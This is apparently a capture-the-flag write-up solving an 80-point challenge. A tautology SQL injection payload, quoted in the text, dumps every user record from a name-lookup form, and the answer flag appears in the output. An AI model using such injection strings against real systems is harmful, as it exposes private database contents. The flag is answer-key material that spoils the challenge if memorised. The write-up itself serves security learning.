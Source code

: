 # Get 'Em All - 80 Solution
---

We check the source, and see that it tells us to try entering random names and seeing what happens.

We see that if the user exists it returns to us a name and his/her corresponding data. So if we can fool the server into thinking a user exists or as far as SQL is concerned that a condition is true, we can get a list of all the users and their corresponding data.

I entered: `' OR '1' = '1' LIMIT 50 -- '`

Which will always evaluate to true and wanted to get the top 50 entries as well as comment out any exploitation preventative code. This worked and I got back:

    Name: Luke
    Data: I made this problem.
    Name: Alec
    Data: Steam boys.
    Name: Jalen
    Data: Pump that iron fool.
    Name: Eric
    Data: I make cars.
    Name: Sam
    Data: Thinks he knows SQL.
    Name: fl4g__giv3r
    Data: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
    Name: snoutpop
    Data: jowls
    Name: Chunbucket
    Data: @datboiiii

Flag: **ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}**
